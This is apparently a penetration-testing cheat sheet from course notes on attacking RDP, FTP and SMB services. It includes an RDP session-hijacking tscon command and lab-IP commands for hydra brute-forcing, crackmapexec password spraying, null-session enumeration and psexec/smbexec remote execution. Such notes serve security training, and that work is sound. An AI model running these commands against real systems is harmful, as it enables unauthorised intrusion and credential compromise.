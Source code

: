 
### RDP - Remote Desktop Protocol
Since RDP takes user credentials for authentication, one common attack vector against the RDP protocol is password guessing. For this we use technique - password spraying, for this we can use: crowbar, hydra

Let's imagine we successfully gain access to a machine and have an account with local administrator privileges. If a user is connected via RDP to our compromised machine, we can hijack the user's remote desktop session to escalate our privileges and impersonate the account. In an Active Directory environment, this could result in us taking over a Domain Admin account or furthering our access within the domain.

To successfully impersonate a user without their password, we need to have SYSTEM privileges and use the Microsoft tscon.exe binary that enables users to connect to another desktop session. It works by specifying which SESSION ID  we would like to connect to which session name. So, for example, the following command will open a new console as the specified SESSION_ID within our current RDP session:
Attacking RDP

```c
C:\htb> tscon #{TARGET_SESSION_ID} /dest:#{OUR_SESSION_NAME}
```

If we have local administrator privileges, we can use several methods to obtain SYSTEM privileges, such as PsExec or Mimikatz.


| **Authentication Type**       | **Description**                                                                                                                                                                                                                                                                                                                           |
| ----------------------------- | ----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| `Windows authentication mode` | This is the default, often referred to as `integrated` security because the SQL Server security model is tightly integrated with Windows/Active Directory. Specific Windows user and group accounts are trusted to log in to SQL Server. Windows users who have already been authenticated do not have to present additional credentials. |
| `Mixed mode`                  | Mixed mode supports authentication by Windows/Active Directory accounts and SQL Server. Username and password pairs are maintained within SQL Server.                                                                                                                                                                                     |

## Commands
|**Command**|**Description**|
|---|---|
|`ftp 192.168.2.142`|Connecting to the FTP server using the `ftp` client.|
|`nc -v 192.168.2.142 21`|Connecting to the FTP server using `netcat`.|
|`hydra -l user1 -P /usr/share/wordlists/rockyou.txt ftp://192.168.2.142`|Brute-forcing the FTP service.|

## Attacking SMB

|**Command**|**Description**|
|---|---|
|`smbclient -N -L //10.129.14.128`|Null-session testing against the SMB service.|
|`smbmap -H 10.129.14.128`|Network share enumeration using `smbmap`.|
|`smbmap -H 10.129.14.128 -r notes`|Recursive network share enumeration using `smbmap`.|
|`smbmap -H 10.129.14.128 --download "notes\note.txt"`|Download a specific file from the shared folder.|
|`smbmap -H 10.129.14.128 --upload test.txt "notes\test.txt"`|Upload a specific file to the shared folder.|
|`rpcclient -U'%' 10.10.110.17`|Null-session with the `rpcclient`.|
|`./enum4linux-ng.py 10.10.11.45 -A -C`|Automated enumeratition of the SMB service using `enum4linux-ng`.|
|`crackmapexec smb 10.10.110.17 -u /tmp/userlist.txt -p 'Company01!'`|Password spraying against different users from a list.|
|`impacket-psexec administrator:'Password123!'@10.10.110.17`|Connect to the SMB service using the `impacket-psexec`.|
|`crackmapexec smb 10.10.110.17 -u Administrator -p 'Password123!' -x 'whoami' --exec-method smbexec`|Execute a command over the SMB service using `crackmapexec`.|
|`crackmapexec smb 10.10.110.0/24 -u administrator -p 'Password123!' --loggedon-users`|Enumerating Logged-on users.|